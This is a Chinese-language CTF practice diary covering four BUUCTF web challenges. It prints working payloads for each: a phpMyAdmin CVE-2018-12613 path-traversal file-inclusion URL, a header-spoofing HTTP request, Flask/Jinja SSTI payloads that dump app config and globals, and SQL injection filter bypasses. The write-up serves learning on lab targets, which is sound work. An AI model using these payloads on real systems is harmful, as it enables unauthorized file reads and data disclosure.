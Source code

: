 # buu摸鱼日记（12）

## [GWCTF 2019]我有一个数据库

用nikto直接扫出来了Phpmyadmin，然后就进了后台，然后停止了思考

这个搞不出来主要是要一个cve-2018-12613-PhpMyadmin后台文件包含

https://www.jianshu.com/p/fb9c2ae16d09

就是过滤不严导致的一个CVE，可以造成文件读取，RCE什么的

```
/phpmyadmin/?target=db_datadict.php%253f/../../../../../../../../flag
```

## [BJDCTF 2nd]假猪套天下第一

绕的我有点晕

尝试sql注入的时候返回L0g1n.php

等的时候发现要改请求头

一通改就行，最后是这样的

```http
GET /L0g1n.php HTTP/1.1
Host: node3.buuoj.cn:28328
User-Agent: Commodore 64
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=99ql7tggdcn8nt36tbm1chlc66; time=1594460329999
Upgrade-Insecure-Requests: 1
Client-Ip: 127.0.0.1
Referer: gem-love.com
From: root@gem-love.com
via: y1ng.vip
```

注释里base64解开就是flag

## [WesternCTF2018]shrine

麻了，又搜bypass搜到wp了

源码审计一看就知道是ssti

```python
import flask
import os


app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/') 
def index(): 
    return open(__file__).read() 
    
@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
        blacklist = ['config', 'self'] 
        return ''.join(['% set =None%}}'.format(c) for c in blacklist]) + s 
    return flask.render_template_string(safe_jinja(shrine)) 


if __name__ == '__main__': 
    app.run(debug=True) 
```

试了一下{{7*7}}果然如此

利用app回调到sys再返回app来绕过相应权限问题以及括号，最后用\_\_dict\_\_吧所有的都翻出来

```python
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```

或者是利用app python的自带函数

```
{{url_for.__globals__['current_app'].config}}
```

url_for回调到相应app然后把config输出出来

（这里只有过滤直接输入config和self的）

## [SWPU2019]Web1

一开始以为是xss(并不是)

这sql注入居然有23列！太你妈坑了

学了下bypass技巧

```
group/**/by/**/22
可以替代order by
```

被过滤# -- 可以用'1之类的方法补掉后面

[http://lz2y.top/index.php/2020/04/%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95-swpu2019web1/](http://lz2y.top/index.php/2020/04/刷题记录-swpu2019web1/)

莫名其妙复现不出来，明天在研究吧（有点恶心）